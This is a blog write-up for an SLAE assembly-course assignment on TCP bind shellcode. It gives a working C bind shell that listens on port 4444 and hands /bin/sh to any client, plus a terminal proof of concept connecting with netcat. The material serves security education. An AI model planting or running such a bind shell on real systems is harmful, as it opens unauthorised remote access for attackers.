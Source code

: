 ```yaml
---
title:  "SLAE x86 Assignment 1: TCP Bind Shellcode"
header:
  teaser: "/assets/images/SHELLCODING32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


## TCP BIND SHELLCODE ## 

* Binds to a port
* Executes a shell on an incoming connection
* Port number should be easily configurable

## CONCEPT ##

A TCP bind shellcode will bind the shell to a specific network port on a host listening for an incoming connection via the TCP protocol.

![Bind Shell](/assets/images/bind_shell.png)

Bind shells are easily blocked by firewalls and inbound filtering rules along with NAT preventing unsolicited incoming connections (except for certain ports with known services). This limits the target host's exposure and will prevent a port-binding shellcode from receiving a successful connection.

## TCP BIND SHELL IN C ## 

The following C skeleton code will be used to demonstrate the TCP bind shell from a high-level language perspective, this will be used as a template for the low-level assembly code to follow.

```c
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // socket for host  
int client_sockid;  // socket for client  
      
struct sockaddr_in hostaddr;  // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using port 4444  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(4444);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection using the socket created  
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}
```

Note the various syscalls in the C code which will be utilised in the upcoming Assembly code:

* socket
* bind
* listen
* accept
* dup2
* execve

The C code consists of the following:

* Creates a socket
* Binds the socket to a port
* Configures the socket to listen for incoming connections
* Accepts connections on the newly created socket
* Redirects STDIN, STDOUT, and STDERR to the incoming client connection
* Executes a shell

## POC ##

```ruby
osboxes@osboxes:~/Downloads/SLAE$ gcc shell_bind_tcp.c -o shell_bind_tcp
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp 

osboxes@osboxes:~$ netstat -ano | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      off (0.00/0/0)
osboxes@osboxes:~$ nc 127.0.0.1 4444
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

## SLAE DISCLAIMER ##

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-xxxx

Github Code: [Assignment 1][github-code].

[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1
